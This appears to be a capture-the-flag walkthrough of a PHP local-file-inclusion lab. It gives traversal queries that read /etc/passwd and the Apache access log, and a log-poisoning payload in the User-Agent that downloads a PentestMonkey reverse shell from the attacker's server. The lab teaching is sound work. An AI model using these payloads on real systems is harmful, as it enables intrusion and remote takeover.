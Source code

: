```php
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>

```

The site checks if the `ext` parameter is set, and if not it adds `.php` to the filename.

Now we can easily read the `etc/passwd` file by adding `&ext` at the end of our query.`cat../../../../../etc/passwd&ext`

![](8.png)

## Foothold

### Log Poisoning

We will use a technique called [log poisoning](https://owasp.org/www-community/attacks/Log_Injection) to get a reverse shell. Since the server is Apache, the log file is located at `/var/log/apache2/access.log`, we can see it with the following query`cat/../../../../var/log/apache2/access.log&ext`

![](9.png)

Let's fire up `Burp Suite` and intercept a request to the website and send it to repeater.

![](10.png)

What we are going to do is put a php code in the useragent parameter that would upload a php reverse shell to the target machine.

We can use [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)'s reverse shell, download it and set the ip address variable to your tun0 ip. After that, run a http server using python: `python3 -m http.server 80`.

The php code we're going to put at the useragent parameter is the following:

```php
<?php file_put_contents('shell.php',file_get_contents('http://10.11.10.10/shell.php'))?>
```

>Don't forget to change the file name 'shell.php` to the name of your php code, and change the ip address.

![](11.png)
